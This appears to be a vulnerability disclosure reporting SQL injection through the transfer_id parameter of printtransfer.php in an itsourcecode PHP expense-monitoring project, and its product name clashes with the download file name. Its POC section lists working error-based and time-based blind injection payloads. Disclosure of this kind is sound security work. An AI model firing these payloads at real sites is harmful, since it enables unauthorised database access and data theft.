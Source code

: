 # Vendor

itsourcecode

# Product

Project Expense Monitoring System

# version

V1.0

# Download

https://itsourcecode.com/wp-content/uploads/2021/03/Construction-Management-System-Project-In-PHP-Source-Code.zip

# Vulnerability

SQLi

# Description

There is a SQLi injection vulnerability in the printtransfer.php page. An attacker can obtain sensitive data in the database by passing special SQL statements in the "$_GET['transfer_id']" parameter.
<img width="1526" alt="image" src="https://github.com/user-attachments/assets/f67e6501-a3b3-4d8e-a74d-2460cb5ad9e9">

# POC
```
Parameter: transfer_id (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: transfer_id=14' AND GTID_SUBSET(CONCAT(0x716b766271,(SELECT (ELT(7990=7990,1))),0x716a787871),7990)-- MmbY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: transfer_id=14' AND (SELECT 8863 FROM (SELECT(SLEEP(5)))rlpX)-- XQNN
```
